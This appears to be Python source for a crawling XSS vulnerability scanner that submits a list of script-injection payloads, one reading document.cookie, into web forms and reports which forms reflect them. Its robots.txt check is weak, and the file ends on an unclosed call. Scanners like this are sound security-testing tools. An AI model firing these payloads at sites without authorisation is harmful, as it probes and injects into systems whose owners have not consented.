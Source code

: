 import requests  # Importing requests library for making HTTP requests
from pprint import pprint  # Importing pprint for pretty-printing data structures
from bs4 import BeautifulSoup as bs  # Importing BeautifulSoup for HTML parsing
from urllib.parse import urljoin, urlparse  # Importing utilities for URL manipulation
from urllib.robotparser import RobotFileParser  # Importing RobotFileParser for parsing robots.txt files
from colorama import Fore, Style  # Importing colorama for colored terminal output
import argparse  # Importing argparse for command-line argument parsing

# List of XSS payloads to test forms with
XSS_PAYLOADS = [
    '"><svg/onload=alert(1)>',
    '\'><svg/onload=alert(1)>',
    '<img src=x onerror=alert(1)>',
    '"><img src=x onerror=alert(1)>',
    '\'><img src=x onerror=alert(1)>',
    "';alert(String.fromCharCode(88,83,83))//';alert(String.fromCharCode(88,83,83))//--></script>",
    "<Script>alert('XSS')</scripT>",
    "<script>alert(document.cookie)</script>",
]
# global variable to store all crawled links
crawled_links = set()

def print_crawled_links():
    """
    Print all crawled links
    """
    print(f"\n[+] Links crawled:")
    for link in crawled_links:
        print(f"    {link}")
    print()
# Function to get all forms from a given URL
def get_all_forms(url):
    """Given a `url`, it returns all forms from the HTML content"""
    try:
        # Using BeautifulSoup to parse HTML content of the URL
        soup = bs(requests.get(url).content, "html.parser")
        # Finding all form elements in the HTML
        return soup.find_all("form")
    except requests.exceptions.RequestException as e:
        # Handling exceptions if there's an error in retrieving forms
        print(f"[-] Error retrieving forms from {url}: {e}")
        return []

# Function to extract details of a form
def get_form_details(form):
    """This function extracts all possible useful information about an HTML `form`"""
    details = {}
    # Extracting form action and method
    action = form.attrs.get("action", "").lower()
    method = form.attrs.get("method", "get").lower()
    inputs = []
    # Extracting input details within the form
    for input_tag in form.find_all("input"):
        input_type = input_tag.attrs.get("type", "text")
        input_name = input_tag.attrs.get("name")
        inputs.append({"type": input_type, "name": input_name})
    # Storing form details in a dictionary
    details["action"] = action
    details["method"] = method
    details["inputs"] = inputs
    return details

# Function to submit a form with a specific value
def submit_form(form_details, url, value):
    """Submits a form given in `form_details`
    Params:
    form_details (list): a dictionary that contains form information
    url (str): the original URL that contains that form
    value (str): this will be replaced for all text and search inputs
    Returns the HTTP Response after form submission"""
    target_url = urljoin(url, form_details["action"])  # Constructing the absolute form action URL
    inputs = form_details["inputs"]
    data = {}
    # Filling form inputs with the provided value
    for input in inputs:
        if input["type"] == "text" or input["type"] == "search":
            input["value"] = value
        input_name = input.get("name")
        input_value = input.get("value")
        if input_name and input_value:
            data[input_name] = input_value
    try:
        # Making the HTTP request based on the form method (POST or GET)
        if form_details["method"] == "post":
            return requests.post(target_url, data=data)
        else:
            return requests.get(target_url, params=data)
    except requests.exceptions.RequestException as e:
        # Handling exceptions if there's an error in form submission
        print(f"[-] Error submitting form to {target_url}: {e}")
        return None
def get_all_links(url):
    """
    Given a `url`, it returns all links from the HTML content
    """
    try:
        # Using BeautifulSoup to parse HTML content of the URL
        soup = bs(requests.get(url).content, "html.parser")
        # Finding all anchor elements in the HTML
        return [urljoin(url, link.get("href")) for link in soup.find_all("a")]
    except requests.exceptions.RequestException as e:
        # Handling exceptions if there's an error in retrieving links
        print(f"[-] Error retrieving links from {url}: {e}")
        return []
# Function to scan for XSS vulnerabilities
def scan_xss(args, scanned_urls=None):
    """Given a `url`, it prints all XSS vulnerable forms and
    returns True if any is vulnerable, None if already scanned, False otherwise"""
    global crawled_links
    if scanned_urls is None:
        scanned_urls = set()
    # Checking if the URL is already scanned
    if args.url in scanned_urls:
        return
    # Adding the URL to the scanned URLs set
    scanned_urls.add(args.url)
    # Getting all forms from the given URL
    forms = get_all_forms(args.url)
    print(f"\n[+] Detected {len(forms)} forms on {args.url}")
    # Parsing the URL to get the domain
    parsed_url = urlparse(args.url)
    domain = f"{parsed_url.scheme}://{parsed_url.netloc}"
    if args.obey_robots:
        robot_parser = RobotFileParser()
        robot_parser.set_url(urljoin(domain, "/robots.txt"))
        try:
            robot_parser.read()
        except Exception as e:
            # Handling exceptions if there's an error in reading robots.txt
            print(f"[-] Error reading robots.txt file for {domain}: {e}")
            crawl_allowed = False
        else:
            crawl_allowed = robot_parser.can_fetch("*", args.url)
    else:
        crawl_allowed = True
    if crawl_allowed or parsed_url.path:
        for form in forms:
            form_details = get_form_details(form)
            form_vulnerable = False
            # Testing each form with XSS payloads
            for payload in XSS_PAYLOADS:
                response = submit_form(form_details, args.url, payload)
                if response and payload in response.content.decode():
                    print(f"\n{Fore.GREEN}[+] XSS Vulnerability Detected on {args.url}{Style.RESET_ALL}")
                    print(f"[*] Form Details:")
                    pprint(form_details)
                    print(f"{Fore.YELLOW}[*] Payload: {payload} {Style.RESET_ALL}")
                    # save to a file if output file is provided
                    if args.output:
                        with open(args.output, "a") as f:
                            f.write(f"URL: {args.url}\n")
                            f.write(f"Form Details: {form_details}\n")
                            f.write(f"Payload: {payload}\n")
                            f.write("-"*50 + "\n\n")
                    form_vulnerable = True
                    break  # No need to try other payloads for this endpoint
            if not form_vulnerable:
                print(f"{Fore.MAGENTA}[-] No XSS vulnerability found on {args.url}{Style.RESET_ALL}")
    # Crawl links if the option is enabled
    if args.crawl:
        print(f"\n[+] Crawling links from {args.url}")
        try:
            # Crawling links from the given URL
            links = get_all_links(args.url)
        except requests.exceptions.RequestException as e:
            # Handling exceptions if there's an error in crawling links
            print(f"[-] Error crawling links from {args.url}: {e}")
            links = []
        for link in set(links):  # Removing duplicates
            if link.startswith(domain):
                crawled_links.add(link)
                if args.max_links and len(crawled_links) >= args.max_links:
                    print(f"{Fore.CYAN}[-] Maximum links ({args.max_links}) limit reached. Exiting...{Style.RESET_ALL}")
                    print_crawled_links()
                    exit(0)
                # Recursively scanning XSS vulnerabilities for crawled links
                args.url = link
                link_vulnerable = scan_xss(args, scanned_urls)
                if not link_vulnerable:
                    continue
if __name__ == "__main__":
    parser = argparse.ArgumentParser(description="Extended XSS Vulnerability scanner script.")
    parser.add_argument("url", help="URL to scan for XSS vulnerabilities")
    parser.add_argument("-c", "--crawl", action="store_true", help="Crawl links from the given URL")
    # max visited links
    parser.add_argument("-m", "--max-links", type=int, default=0, help="Maximum number of links to visit. Default 0, which means no limit.")
    parser.add_argument("--obey-robots", action="store_true", help="Obey robots.txt rules")
    parser.add_argument("-o", "--output", help="Output file to save the results")
    args = parser.parse_args()
    scan_xss(args)  # Initiating XSS vulnerability scan

    print_crawled_links(
